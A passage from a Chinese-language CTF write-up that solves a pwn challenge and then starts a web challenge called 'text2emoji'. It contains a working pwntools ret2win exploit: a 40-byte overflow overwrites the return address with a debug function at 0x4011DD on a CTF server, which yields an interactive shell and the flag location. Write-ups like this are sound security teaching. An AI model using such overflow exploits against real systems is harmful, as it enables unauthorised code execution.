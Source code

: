 `scanf` 寫入的位置距離 ret 還有 `0x20 + 8` bytes 的位置，`debug` 的位置在 `0x4011DD`，有了這兩個資訊後就可以來寫 script 了。

```python
from pwn import *

context.arch = "amd64"

io = remote("up.zoolab.org", 30001)

io.recvuntil("distribution are you using?")

# Debug Position
io.sendline(b"A"*40+pack(0x4011DD))

io.recvline()

io.interactive()

io.close()
```

最後 Navigate 一下就可以找到 flag 的位置了（`/home/arch_check/flag`）

## Web - text2emoji

網址：http://splitline.tw:5000/。一進去首頁如下：

![](./text2emoji/img/Screen%20Shot%202021-09-20%20at%205.54.56%20PM.png)
